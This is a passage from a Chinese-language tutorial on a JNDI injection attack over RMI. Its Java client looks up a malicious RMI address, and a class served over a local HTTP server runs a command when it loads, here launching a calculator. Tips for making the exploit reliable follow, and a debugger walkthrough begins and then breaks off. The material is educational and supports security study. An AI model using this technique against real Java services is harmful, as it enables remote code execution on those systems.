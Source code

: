 Client：

```java
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        String url = "rmi://127.0.0.1:1099/evil";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}
```

calc.java编译为class文件，`python -m http.server 8080`起Web服务

```java
import java.io.IOException;

public class calc {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

启动服务端、客户端，触发客户端弹出计算器

****

> **注：Server的url端口后面一定要有斜线（`/`）！！！**
>
> 这里的恶意类calc.java实际上最好实现`javax.naming.spi.ObjectFactory`接口，并重写`getObjectInstance`方法，否则客户端请求得到字节码文件后，会抛出异常（可能就是因为calc.java没有实现ObjectFactory接口）

------

**Analysis**

在`initialContext.lookup(url);`处下断点

一路跟进lookup，到`RegistryContext#lookup`，

![image-20230122141627407](../.gitbook/assets/image-20230122141627407.png)
